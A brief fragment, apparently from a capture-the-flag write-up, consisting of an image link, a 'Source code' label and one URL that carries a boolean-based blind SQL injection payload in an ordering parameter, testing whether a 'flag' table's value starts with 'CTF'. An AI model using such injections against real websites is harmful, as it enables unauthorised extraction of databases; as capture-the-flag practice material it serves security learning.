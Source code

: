 http://example.com/order?=(CASE WHEN (SELECT SUBSTRING(flag,1,3) FROM flag)="CTF" THEN title ELSE date END)
